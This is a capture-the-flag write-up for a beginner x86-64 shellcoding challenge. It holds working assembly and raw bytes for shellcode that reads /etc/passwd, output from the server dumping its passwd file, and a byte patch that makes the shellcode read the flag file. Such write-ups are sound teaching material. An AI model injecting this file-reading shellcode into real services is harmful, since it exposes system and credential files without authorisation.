

# Shellcoding/shellcoding 0x01

### Challenge

- Category: Shellcoding
- Author: nordbo
- Description: The idea of these challenges is to write x86-64 shellcode to obtain the flag which is located in /opt/flag. As you progress, the challenges gets harder. The source code and an example pwntools template to communicate with the server is provided. pwn.college has a great introduction to assembly and shellcoding Good luck!
- Service: `nc io.ept.gg 30011`
- Downloads
  - example.py
  - sc01
  - sc01.c

### Writeup by
- hag

---

## `nc io.ept.gg 30011`

```BASH
$ nc io.ept.gg 30011
Welcome to the shellcoding challenges!
This is level 1.
The flag is in /opt/flag
Enter your shellcode, maximum 0x200 bytes.
>
```

## Read File Shellcode

I found the following shellcode through Google: http://shell-storm.org/shellcode/files/shellcode-878.php.

```s
BITS 64
; Author Mr.Un1k0d3r - RingZer0 Team
; Read /etc/passwd Linux x86_64 Shellcode
; Shellcode size 82 bytes
global _start

section .text

_start:
jmp _push_filename
  
_readfile:
; syscall open file
pop rdi ; pop path value
; NULL byte fix
xor byte [rdi + 11], 0x41
  
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
; syscall write to stdout
xor rdi, rdi
add dil, 1 ; set stdout fd = 1
mov rdx, rax
xor rax, rax
add al, 1
syscall
  
; syscall exit
xor rax, rax
add al, 60
syscall
  
_push_filename:
call _readfile
path: db "/etc/passwdA"
  
Shellcode:

\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41
```

## Testing Shellcode

The shellcode reads and outputs `/etc/passwd`, which is not exactly what we want, but let's try the shellcode anyway:

```bash
$ echo -e "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" | nc io.ept.gg 30011
Welcome to the shellcoding challenges!
This is level 1.
The flag is in /opt/flag
Enter your shellcode, maximum 0x200 bytes.
> root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf/:/bin/bash
```


## Modifying Shellcode

But we need flags, not users! 🚩😎 We could modify the assembler listing and reassemble, but that sounds like a lot of work. Luckily the compiled shellcode is included at the bottom. Let's just hack at the raw bytes.

### Read `/etc/passwd` shellcode

```bash
echo -e "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" | nc io.ept.gg 30011
```

Let's change the filename first.

```bash
$ echo -n "/etc/passwd" | hexdump -C
00000000  2f 65 74 63 2f 70 61 73  73 77 64                 |/etc/passwd|
```

`/etc/passwd` is `\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64` in hex. It's also `11 (\x0b)` characters long.

We need to change the filename to `/opt/flag`.

```bash
$ echo -n "/opt/flag" | hexdump -C
00000000  2f 6f 70 74 2f 66 6c 61  67                       |/opt/flag|
```

`/opt/flag` is `\x2f\x6f\x70\x74\x2f\x66\x6c\x61\x67` in hex and is `9 (0x09)` characters long.

We can find the relevant parts in the original shellcode:

```bash
echo -e "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" | nc io.ept.gg 30011
```

The new shellcode becomes:

```bash
echo -e "\xeb\x3f\x5f\x80\x77\x09\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x6f\x70\x74\x2f\x66\x6c\x61\x67\x41" | nc io.ept.gg 30011
```

Diff:




## Exploit & 🚩

```bash
$ echo -e "\xeb\x3f\x5f\x80\x77\x09\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x6f\x70\x74\x2f\x66\x6c\x61\x67\x41" | nc io.ept.gg 30011
Welcome to the shellcoding challenges!
This is level 1.
The flag is in /opt/flag
Enter your shellcode, maximum 0x200 bytes.
> EPT{welcome_t0_sh3llc0ding!}
```
